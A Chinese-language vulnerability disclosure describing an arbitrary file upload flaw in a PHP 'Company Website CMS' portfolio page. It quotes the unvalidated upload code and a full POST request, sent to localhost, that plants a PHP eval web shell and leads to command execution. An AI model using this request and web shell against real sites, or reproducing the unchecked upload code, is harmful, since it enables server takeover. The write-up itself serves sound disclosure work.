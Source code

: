 # Company Website CMS

Company Website CMS在创建/dashboard/Portfolio页面，后端代码无限制，导致任意文件上传漏洞。

后端代码为：

```php
$uploads_dir = 'uploads/portfolio';

        $tmp_name = $_FILES["ufile"]["tmp_name"];
        // basename() may prevent filesystem traversal attacks;
        // further validation/sanitation of the filename may be appropriate
        $name = basename($_FILES["ufile"]["name"]);
        $random_digit=rand(0000,9999);
        $new_file_name=$random_digit.$name;

        move_uploaded_file($tmp_name, "$uploads_dir/$new_file_name");
```

可以看出是一个无限制的文件上传，只有文件名被随机值拼接然后移动。

上传页面为：

![image-20250309215745498](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092157549.png)

上传文件：

![image-20250309215920374](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092159410.png)

使用payload为：

```
POST /vogue/dashboard/createportfolio HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Length: 839
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/vogue/dashboard/createportfolio
Cookie: PHPSESSID=8udk6re20tpda96ncs7of8bb94
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_title"

file upload text222222222222
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_desc"

uploaduploaduploaduploaduploaduploadupload
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="port_detail"

uploaduploaduploaduploaduploaduploaduploaduploadupload
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="ufile"; filename="text.php"
Content-Type: application/octet-stream

<?php echo "portfolio"; @eval($_POST[123]); ?>
------geckoformboundaryafbda5700eee89a77231823337f34d28
Content-Disposition: form-data; name="save"


------geckoformboundaryafbda5700eee89a77231823337f34d28--

```

上传问文件后，可以看到前台的正常图标内容被挤到旁边去了：

![image-20250309220034549](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092200619.png)

但是这里有有点乱了，可以直接看源代码然后搜关键词：
![image-20250309182520661](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092200009.png)

同样拿到文件名，然后访问就可以进行命令执行了：

![image-20250309182556560](https://fpc-mybucket.oss-cn-beijing.aliyuncs.com/images/202503092200007.png)

————————